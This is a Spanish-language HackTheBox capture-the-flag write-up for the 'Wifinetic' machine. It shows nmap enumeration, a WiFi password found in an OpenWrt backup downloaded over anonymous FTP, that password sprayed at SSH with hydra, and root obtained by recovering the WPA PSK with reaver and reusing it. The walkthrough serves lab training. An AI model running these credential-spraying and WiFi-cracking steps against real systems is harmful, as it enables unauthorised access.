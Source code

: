 ```yaml
---
title: HackTheBox - Wifinetic
author: cotes
date: 2023-09-14 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Cracking WPA/WPA2 Password']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Wifinetic/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Wifinetic Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, Cracking WPA/WPA2 Password**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Wifinetic/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Wifinetic/02-versions.png)

* Como está habilitada la autenticación 'anónima' en FTP, listamos los ficheros existentes y los descargamos

c. Con los ficheros en nuestra máquina, listamos toda la información posible.

```bash
❯ 7z x backup-OpenWrt-2023-07-26.tar
❯ cat config/wireless
    <SNIP>
    option key 'VeRyUniUqWiFIPasswrd1!'

❯ cat passwd

root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false
ntp:x:123:123:ntp:/var/run/ntp:/bin/false
dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
logd:x:514:514:logd:/var/run/logd:/bin/false
ubus:x:81:81:ubus:/var/run/ubus:/bin/false
netadmin:x:999:999::/home/netadmin:/bin/false
```

* Guardamos estos nombres de usuario en una fichero y realizaremos un ataque de fuerza bruta al servicio ssh con hydra

    ```bash
    ❯ cat passwd | awk '{print $1}' FS=':' > users.txt
    ❯ hydra -L users.txt -p 'VeRyUniUqWiFIPasswrd1!' ssh://10.10.11.247 -t 4

    [22][ssh] host: 10.10.11.247   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
    ```

### Escalada de Privilegios 💹

a. Contamos con múltiples interfaces de red y vemos una **capability** asignada a 'reaver'

```bash
netadmin@wifinetic:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 10.10.11.247  netmask 255.255.254.0  broadcast 10.10.11.255

mon0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    unspec 02-00-00-00-02-00-30-3A-00-00-00-00-00-00-00-00  txqueuelen 1000  (UNSPEC)

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.168.1.1  netmask 255.255.255.0  broadcast 192.168.1.255

wlan1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255

wlan2: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
    ether 02:00:00:00:02:00  txqueuelen 1000  (Ethernet)

netadmin@wifinetic:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

> **Reaver** es una herramienta usada para pentesting en redes que tienen habilitado el protocolo WPA/WPA2
{: .prompt-info }

b. Para usar esta herramienta necesitamos una interfaz de red en modo monitor 'mon0', la dirección MAC y el canal en el cual opera esta interfaz

```bash
netadmin@wifinetic:~$ iw dev

<SNIP>
phy#0
    Interface wlan0
        ifindex 3
        wdev 0x1
        addr 02:00:00:00:00:00
        ssid OpenWrt
        type AP
        channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
        txpower 20.00 dBm

netadmin@wifinetic:~$ reaver  -i mon0 -b 02:00:00:00:00:00 -c 1 -vv

<SNIP>
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
```

* Con la credencial antes obtenida podemos acceder como root al sistema

    ```bash
    netadmin@wifinetic:~$ su root
    Password: WhatIsRealAnDWhAtIsNot51121!
    root@wifinetic:/home/netadmin#
    ```